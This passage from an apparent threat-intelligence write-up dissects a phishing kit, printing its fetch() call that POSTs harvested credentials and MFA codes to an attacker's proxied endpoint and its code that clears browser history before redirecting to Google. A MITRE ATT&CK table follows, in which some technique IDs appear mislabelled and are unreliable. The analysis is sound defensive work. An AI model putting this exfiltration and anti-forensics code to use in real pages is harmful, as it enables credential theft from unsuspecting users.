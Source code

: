 The function begins with credential harvesting, which involves reading form fields. There is no client-side validation or encryption; instead, the data is extracted. The data is prepared in JSON format and sent to the threat actors' backend, which we identify as an NGINX Proxy (likely configured in reverse to hide their tracks).

```
// Send data to webhook handler via nginx proxy
    fetch('/api/submit', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
                },
        body: JSON.stringify(data)
            })
            .then(response => response.json())
            .catch((error) => {
                console.error('Error:', error);
            })
```

Threat actors will use reverse proxies to hide their infrastructure. This tactic will obfuscate the true destination of the traffic. The reverse proxy manages the flow of traffic after it reaches it, and it is something that will not be shared with a network defender. All they can do is block that outgoing traffic when it is discovered. I found, through my Lumma Stealer research, that threat actors consider this and embed code with a secondary location ready to be activated in case of takedown. So even if you block that traffic, the threat actor is likely prepared for that.

```
    .finally(() => {
        // Wait for 5 seconds before redirecting
        console.log('Redirecting in 5 seconds...');
	        setTimeout(function() {
            // Clear browser history to prevent back button
                history.replaceState(null, '', '/');

            // Redirect to Google
                window.location.replace('https://accounts.google.com/');
                }, 5000);
            });
        }
```

Our threat actor ends their attack with .finally. They redirect traffic to Google and clear the browser history to prevent the victim from returning to the website after realizing what may have happened.

|MITRE ID|Technique|Description|
|---|---|---|
|**T1566.002**|_Phishing: Spearphishing via Link_|User is lured into a fake login + MFA page|
|**T1111**|_Multi-Factor Authentication Interception_|Captures TOTP codes directly from the fake MFA form|
|**T1056.001**|_Input Capture: Form Grabbing_|Harvests user input via DOM without alerting the user|
|**T1204.001**|_User Execution: Malicious Link_|User interaction is required to trigger the attack|
|**T1041**|_Exfiltration Over C2 Channel_|Uses `fetch()` to transmit credentials to a handler endpoint|
|**T1562.001**|_Impair Defenses: History Manipulation_|Uses `history.replaceState()` to hide back button trail (anti-forensics)|
|**T1556.004**|_Adversary-in-the-Middle (AiTM)_ (related)|Enables real-time session replay attacks if combined with proxy kits|
